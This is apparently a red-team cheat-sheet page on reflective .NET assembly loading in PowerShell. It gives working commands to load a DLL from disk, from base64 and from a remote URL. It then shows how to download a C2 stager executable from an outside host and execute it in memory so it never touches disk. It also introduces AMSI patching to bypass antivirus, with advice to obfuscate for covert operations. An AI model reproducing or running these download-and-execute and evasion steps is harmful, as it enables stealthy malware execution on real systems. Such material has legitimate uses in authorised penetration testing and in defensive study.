 ### Load DLL assembly reflectively 

The most basic (although not very interesting) method of loading and running this code, is from disk using PowerShell:

```powershell
PS > [System.Reflection.Assembly]::LoadFile("C:\Users\IEUser\source\repos\ReflectionDemo\bin\Release\ReflectionDemo.dll")
PS > [ReflectionDemo.DemoClass]::PrintStuff()
Hello World
```


We could also encode the DLL to a base64 string and load it without it needing to be on disk: 🚩

```powershell
PS > $dll = [System.IO.File]::ReadAllBytes("C:\Users\IEUser\source\repos\ReflectionDemo\bin\Release\ReflectionDemo.dll")
PS > $dllstring = [System.Convert]::ToBase64String($dll)
PS > [System.Reflection.Assembly]::Load([System.Convert]::FromBase64String($dllstring))
PS > [ReflectionDemo.DemoClass]::PrintStuff()
Hello World
```

Or download the DLL from a remote location:

```powershell
PS > $dll = (new-object net.webclient).DownloadData("http://10.8.0.6/ReflectionDemo.dll")
PS > [System.Reflection.Assembly]::Load($dll)
PS > [ReflectionDemo.DemoClass]::PrintStuff()
Hello World
```

You can use this reflection technique to download and run a GruntStager EXE directly from memory, without having it touch disk.  For example:

```powershell
PS > $monk = (new-object net.webclient).downloaddata("http://192.168.152.100/monk.exe")
PS > [System.Reflection.Assembly]::Load($monk)

GAC Version Location
--- ------- --------
False v4.0.30319

PS > [MonkStager.MonkStager]::Execute()
```

__Note:__ .NET 4.8, Assembly.Load is AMSI-aware 🚩



### 1) Powershell AMSI Bypass

Patching AMSI will help bypass AV warnings triggered when executing PowerShell scripts that are marked as malicious (such as PowerView). Do not use as-is in covert operations, as they will get flagged. Obfuscate, or even better, eliminate the need for an __AMSI bypass__ altogether by altering your scripts to beat signature-based detection.
